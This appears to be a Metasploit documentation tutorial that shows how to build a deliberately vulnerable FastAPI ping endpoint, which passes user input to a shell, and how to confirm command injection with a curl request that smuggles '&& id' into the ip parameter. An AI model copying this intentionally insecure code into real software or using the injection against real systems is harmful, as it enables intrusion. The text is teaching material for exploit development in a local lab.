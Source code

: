 If you've found a way to execute a command on a target, and you'd like to make a simple exploit module to get a shell, this guide is for you. Alternatively, if you have access to **fetch** commands on the target (curl, wget, ftp, tftp, tnftp, or certutil), you can use a [[Fetch Payload|How-to-use-fetch-payloads]] for a no-code solution.

By the end of this guide you'll understand how to turn [Command injection](https://owasp.org/www-community/attacks/Command_Injection) into a shell - from here, you can move on to the [[command stager|How-to-use-command-stagers]] article and upgrade your basic `:unix_cmd` Target to a Dropper for all kinds of payloads with variable command stagers.

This guide assumes *some* knowledge of programming (Understand what a class is, what methods/functions are) but expects no in-depth knowledge of Metasploit internals.

## A Vulnerable Service

For the vulnerable service test case, we'll be using a simple FastAPI service. This is very easy to spin up:

1. Install `fastapi[all]` using your preferred Python package manager (a virtual environment is recommended)
2. Create a file to hold some Python code (I'll call it `main.py`)
3. Copy the following code into your file:

    ```python
    from fastapi import FastAPI, Response
    import subprocess

    app = FastAPI()

    @app.get("/ping")
    def ping(ip : str):
        res = subprocess.run(f"ping -c 1 {ip}", shell=True, capture_output=True)
        return Response(content=res.stdout.decode("utf-8"), media_type="text/plain")
    ```

4. Start your vulnerable service with `uvicorn main:app`
5. Test that the application works with `curl`:

    ```sh
    $ curl http://localhost:8000/ping?ip=1.1.1.1
    PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data.
    64 bytes from 1.1.1.1: icmp_seq=1 ttl=58 time=16.7 ms

    --- 1.1.1.1 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 16.739/16.739/16.739/0.000 ms
    ```

6. Test that your application is exploitable - also with `curl`:

    ```sh
    $ curl localhost:8000/ping?ip=1.1.1.1%20%26%26id
    PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data.
    64 bytes from 1.1.1.1: icmp_seq=1 ttl=58 time=16.6 ms

    --- 1.1.1.1 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 16.614/16.614/16.614/0.000 ms
    uid=1000(meta) gid=1000(meta)
    ```
